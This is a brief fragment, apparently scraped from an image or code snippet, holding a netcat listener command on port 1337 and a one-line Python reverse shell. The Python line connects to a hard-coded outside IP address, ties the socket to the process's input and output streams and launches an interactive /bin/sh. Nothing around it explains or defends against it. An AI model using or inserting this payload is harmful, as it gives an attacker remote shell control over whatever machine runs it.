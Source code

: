 nc -lvp 1337
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('35.212.243.13',1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);

